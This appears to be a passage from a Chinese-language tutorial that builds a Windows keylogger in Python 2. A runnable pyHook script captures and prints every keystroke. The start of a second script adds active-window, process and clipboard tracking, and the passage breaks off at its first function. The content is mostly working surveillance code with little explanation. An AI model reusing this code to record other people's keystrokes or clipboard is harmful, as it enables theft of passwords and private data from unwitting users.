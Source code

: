 测试代码

```
# -*- coding: utf-8 -*-
import pythoncom
import pyHook
def onKeyboardEvent(event):
    # 监听键盘事件
    print "Key:", event.Key
def main():
    # 创建一个“钩子”管理对象
    hm = pyHook.HookManager()
    # 监听所有键盘事件
    hm.KeyDown = onKeyboardEvent
    # 设置键盘“钩子”
    hm.HookKeyboard()
    # 进入循环，如不手动关闭，程序将一直处于监听状态
    pythoncom.PumpMessages()
 
 
if __name__ == "__main__":
    main()
```



**使用效果**

![image-20220315110717457](images/pyhook_test1.png)



**加入窗口和进程检测**

```
#-*- coding: utf-8 -*-
 
from ctypes import *
import pythoncom
import pyHook
import win32clipboard
 
user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None
 
 
def get_current_process():
```